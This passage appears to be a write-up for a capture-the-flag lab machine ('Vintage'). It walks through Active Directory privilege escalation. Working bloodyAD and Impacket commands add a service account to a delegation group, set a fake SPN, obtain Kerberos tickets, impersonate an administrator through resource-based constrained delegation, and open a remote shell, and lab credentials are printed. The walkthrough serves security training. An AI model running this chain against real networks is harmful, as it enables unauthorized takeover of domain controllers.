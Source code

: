The password of `c.neri_adm` is: `Uncr4ck4bl3P4ssW0rd0312`

![[Screenshot 2025-03-07 135854.jpg]]

![[Screenshot 2025-03-07 135906.jpg]]

The next step is to add `C.NERL_ADM` to `DELEGATEDADMINS` so we run the following to add it to the group, however we can use C.Neri to add a SPN to the service account (call it whatever you want) and then use C.Neri_adm to move it to the delegated administrators group, so that we can use this service account to deploy RBCD ABUSE (this service account must be svc_sql, because we only know its password):

```bash
bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "svc_sql"
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "svc_sql" servicePrincipalName -v "cifs/fake"
```

Get an entry for this SVC
```bash
impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb
```

And we export the ticket again

```bash
export KRB5CCNAME=svc_sql.ccache
```

Now, we impersonate the user **L.BIANCHI_ADM** to request a service ticket for the cifs/dc01.vintage.htb service. After successfully obtaining the ticket, we can use it to access the service.

```bash
impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'
```

And we export it again

```bash
export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

Now that we have L.BIANCHI's ticket, we can run commands directly through wmiexec

```bash
impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb 
```

```bash
❯ impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is B8C0-0CD3

 Directory of C:\

05/08/2021  10:20 AM    <DIR>          PerfLogs
11/14/2024  04:45 PM    <DIR>          Program Files
06/05/2024  12:11 PM    <DIR>          Program Files (x86)
11/14/2024  07:47 PM    <DIR>          Users
03/07/2025  03:42 PM    <DIR>          Windows
               0 File(s)              0 bytes
```